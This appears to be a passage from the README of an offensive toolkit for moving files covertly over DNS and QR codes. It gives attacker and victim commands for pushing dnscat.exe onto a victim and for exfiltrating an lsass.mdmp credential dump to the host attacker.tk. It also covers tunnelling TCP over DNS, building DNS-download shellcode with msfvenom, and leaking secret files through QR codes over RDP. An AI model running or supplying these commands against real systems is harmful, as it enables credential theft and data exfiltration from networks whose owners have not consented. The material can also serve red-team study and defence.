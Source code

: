 ```
  print(t.channel_config())
  print(t.encoder_config('b64'))

  t.send(dataz)

  print(t.receive())
```



### exfiltration/infiltration toolkit

1. Infiltration (File upload)

```
attacker> sudo ./dns_upload.py --udp --file dnscat.exe
victim> cscript.exe dns_download.vbs
victim> ./dns_download.sh attacker.tk 1190 /tmp/dnscat
```



2. Exfiltration (File download)

```
attacker> sudo ./dns_download.py --udp --file lsass.mdmp
victim> cscript.exe dns_upload.vbs c:\path\to\lsass.mdmp attacker.tk
```

3. Dns-to-Tcp WIP

```
victim> set TIMEOUT=1000
victim> set DNS_SIZE=50
victim> dns_tcp.exe c 127.0.0.1 445
attacker> sudo ./dns_tcp.py --udp --port 53 -l 445
attacker> exploit.py localhost 445
```

4. Dns-Shellcode

It can be used as dns-shellcode alternative for exploiting isolated hosts:

```
msfvenom -p windows/exec CMD=$(cat dns_download_exec.bat) -f raw -o dns_shellcode
msfvenom -p linux/x86/exec CMD=$(cat dns_download_exec.sh) -f raw -o dns_shellcode
```

5. QR exfiltration (File upload)

For RDP (windows):

```
cl /c lib\qrcodegen.c
cl /c qr_upload.c
link /out:qr_upload.exe qr_upload.obj qrcodegen.obj
chcp 866
set TIMEOUT=1000
set SIZE=100
qr_upload.exe c:\path\to\secret.bin
```
